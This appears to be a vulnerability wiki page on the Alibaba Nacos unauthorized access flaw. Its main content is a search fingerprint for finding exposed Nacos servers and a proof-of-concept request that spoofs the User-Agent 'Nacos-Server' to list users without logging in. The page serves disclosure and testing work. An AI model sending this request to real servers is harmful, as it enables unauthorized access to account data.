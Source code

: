 # Alibaba Nacos user Unauthorized access vulnerability

## Vulnerability Description

On December 29, 2020, Nacos officially disclosed in the issue released by github that there is an unauthorized access vulnerability in Alibaba Nacos due to improper handling of User-Agent. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Alibaba Nacos </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="NACOS"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7.png)

Verify POC

```javascript
GET /nacos/v1/auth/users?pageNo=1&pageSize=9
User-Agent: Nacos-Server
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679979333660-14aa3d9c-2581-48a4-b482-27912d98f75d.png)